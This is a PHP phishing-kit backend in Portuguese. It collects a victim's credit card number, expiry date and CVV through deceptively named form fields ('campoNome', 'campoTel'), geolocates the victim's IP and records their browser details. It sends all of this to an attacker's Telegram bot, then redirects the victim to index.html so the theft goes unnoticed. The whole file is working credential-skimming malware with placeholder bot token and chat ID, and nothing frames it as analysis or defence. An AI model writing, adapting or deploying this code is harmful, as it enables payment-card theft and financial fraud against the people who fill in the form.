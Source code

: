
function getIpInfo($ip) {
    $apiUrl = "http://ip-api.com/json/{$ip}";
    $apiData = file_get_contents($apiUrl);
    return json_decode($apiData, true);
}

function getBrowserName($userAgent) {
    $browser = "Desconhecido";
    if (preg_match('/Firefox/i', $userAgent)) {
        $browser = 'Firefox';
    } elseif (preg_match('/MSIE/i', $userAgent) || preg_match('/Trident/i', $userAgent)) {
        $browser = 'Internet Explorer';
    } elseif (preg_match('/Edge/i', $userAgent)) {
        $browser = 'Microsoft Edge';
    } elseif (preg_match('/Chrome/i', $userAgent)) {
        $browser = 'Google Chrome';
    } elseif (preg_match('/Safari/i', $userAgent)) {
        $browser = 'Safari';
    } elseif (preg_match('/Opera|OPR/i', $userAgent)) {
        $browser = 'Opera';
    }
    return $browser;
}

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    
    if (isset($_POST['campoNome']) && isset($_POST['campoTel']) && isset($_POST['campoTel2'])) {
        
        $numeroCartao = $_POST['campoNome'];
        $validadeCartao = $_POST['campoTel'];
        $cvv = $_POST['campoTel2'];
        $dataHora = date('Y-m-d H:i:s');

        $ip = $_SERVER['REMOTE_ADDR'];
        $userAgent = $_SERVER['HTTP_USER_AGENT'];
        $lingua = isset($_SERVER['HTTP_ACCEPT_LANGUAGE']) ? $_SERVER['HTTP_ACCEPT_LANGUAGE'] : 'N/A';

        $navegador = getBrowserName($userAgent);
        $ipInfo = getIpInfo($ip);

        $conteudo = "🦆 | LOG DUCKETTSTONE\n\n";
        $conteudo .= "💳 | Número do Cartão: $numeroCartao\n";
        $conteudo .= "📅 | Validade: $validadeCartao\n";
        $conteudo .= "🔑 | CVV: $cvv\n";
        $conteudo .= "🏠 | IP: " . $ipInfo["query"] . "\n🔎 | Cidade: " . $ipInfo["city"] . "\n📍 | Região: " . $ipInfo["regionName"] . "\n🌎 | País: " . $ipInfo["country"] . "\n📦 | ISP: " . $ipInfo["isp"] . "\n\n";
        $conteudo .= "🔓 | USER-AGENT: $userAgent\n";
        $conteudo .= "🌐 | NAVEGADOR: $navegador\n";
        $conteudo .= "👥 | LINGUAGEM: $lingua\n";
        $conteudo .= "📆 | DATA/HORA: $dataHora\n\n";        
        
        $botToken = 'TOKEN_BOT_AQUI_MEU_FI';
        $chatId = 'ID_SEU_CARA';

        $mensagem = urlencode($conteudo);
        $url = "https://api.telegram.org/bot{$botToken}/sendMessage?chat_id={$chatId}&text={$mensagem}";

        $response = file_get_contents($url);

        if ($response !== false) {
            header('Location: index.html'); 
            exit();
        } else {
            echo "Houve um erro ao enviar os dados. Tente novamente.";
        }
    } else {
        echo "Por favor, preencha todos os campos do formulário.";
    }
} else {
    header('Location: /'); 
    exit();
}
?>

